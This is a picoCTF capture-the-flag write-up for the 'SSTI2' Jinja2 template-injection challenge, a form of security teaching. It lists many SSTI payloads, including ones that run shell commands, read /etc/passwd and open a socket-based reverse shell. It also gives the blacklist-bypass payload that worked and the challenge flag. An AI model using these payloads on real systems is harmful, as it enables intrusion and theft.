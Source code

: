 # SSTI2

AUTHOR: VENAX

Description

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

Additional details will be available after launching your challenge instance.

Hints:

1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?

This challenge is the continuation of SSTI1, based on the title we could already know it is related to Server Side Template Injection attack. However, this challenge mentioned it has blocked certain characters.

![1000170803](https://github.com/user-attachments/assets/718192db-09ba-4b1c-b002-11bc159ea19e)

We could not identified filtering used based on the website source code:

```java
<!doctype html>
      <title>SSTI2</title>
<h1> Home </h1>
<p> I built a cool website that lets you announce whatever you want!* </p><form action="/" method="POST"> 
What do you want to announce: <input name="content" id="announce"> <button type="submit"> Ok </button>
      </form>
      <p style="font
size:10px;position:fixed;bottom:10px;left:10px;"> *Announcements may only reach yourself </p>
```

We already know the website is using Jinja2 as template engine based on challenge SSTI1.

{{7*’7’}} returns 7777777 → Jinja2

We will brute force to identify the correct payload based on Jinja2:

```jsx
{{4*4}}
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{% raw %}{% for key, value in config.iteritems() %}<dt>{{ key|e }}</dt><dd>{{ value|e }}</dd>{% endfor %}{% endraw %}
{{ request }}
{{self}}
{{app.request.query.filter(0,0,1024,{'options':'system'})}}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{{self._TemplateReference__context.cycler.__init__.__globals__.os}}
{{self._TemplateReference__context.joiner.__init__.__globals__.os}}
{{self._TemplateReference__context.namespace.__init__.__globals__.os}}
{{cycler.__init__.__globals__.os}}
{{joiner.__init__.__globals__.os}}
{{namespace.__init__.__globals__.os}}
```

We successfully identified the correct payload that successfully executed on the server:

![image](https://github.com/user-attachments/assets/706a2f6f-844d-4298-8ba8-fe5d4c8a4d4d)


This is the full payload:

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

All we need to do know is to change the id to cat flag:

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}

What the code does?

- \x5f is the hex encoding of _ (underscore)

The payload first sends the request and gives access to Flask application interface. It allow us to gain access to global variables. Next, it access global and builtins that allow access to builtin python functions such as import and open. import os helps load the os module that allows file manipulation and file access. os.popen(’cat flag’) will get the flag and read() will get output of the command and displays it. 

And we get the flag:

**picoCTF{sst1_f1lt3r_byp4ss_8b534b82}**
